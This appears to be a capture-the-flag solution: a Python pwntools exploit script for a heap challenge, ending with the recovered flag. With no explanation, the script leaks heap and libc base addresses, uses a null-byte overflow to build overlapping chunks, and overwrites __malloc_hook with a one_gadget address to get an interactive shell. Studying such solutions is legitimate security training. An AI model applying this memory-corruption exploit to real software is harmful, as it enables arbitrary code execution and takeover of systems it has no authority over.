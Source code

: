```python
def delete(index):
	s.sendlineafter('> ','2')
	s.sendlineafter('> ',index)

def club(index):
	s.sendlineafter('> ','5')
	s.sendlineafter('> ',index)

member = 0x6030C0

pause()

add(str(0x20),'A' * 0x20)
add(str(0x68),(p64(e.got['puts']) + p64(member)) * 6)
delete('1')
club('0')
club_add(str(0x20), 'C' * 3, '1', '1')
club('0')
s.sendlineafter('> ','4')

s.recvuntil('AAAA | ')
heap_base = u32(s.recv(4)) - 0x10
s.recvuntil(' | ')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['puts']

log.info('HEAP BASE : ' + hex(heap_base))
log.info('LIBC BASE : ' + hex(libc_base))
delete('0')

add(str(0x68),'A' * 0x20)
add(str(0x68),'B' * 0x58 + p64(0xe1))
add(str(0x68),'A' * 0x20)
delete('0')
delete('1')
delete('2')

#debug()
add(str(0x20),'A' * 0x20)
add(str(0x68),'C' * 0x10 + 'A' * 8 * 5 + p64(heap_base + 0x170))
delete('1')
club('0')
club_add(str(0x20), 'D' * 0x20, '1', '1')
add(str(0x20),'A' * 0x20)
club('0')
sleep(0.05)
delete('0')
#s.sendlineafter('> ','4')

oneshot = libc_base + 0xf1117
add(str(0xe0),'F' * 0x8 + p64(0x71) + p64(libc_base + l.symbols['__malloc_hook'] - 0x23))
add(str(0x68),'F' * 0x8)
add(str(0x68), 'A' * 0x13 + p64(oneshot))

s.interactive()
```
FLAG : FLAG is FLAG{Null_by7e_t0_control_th3_club :)}
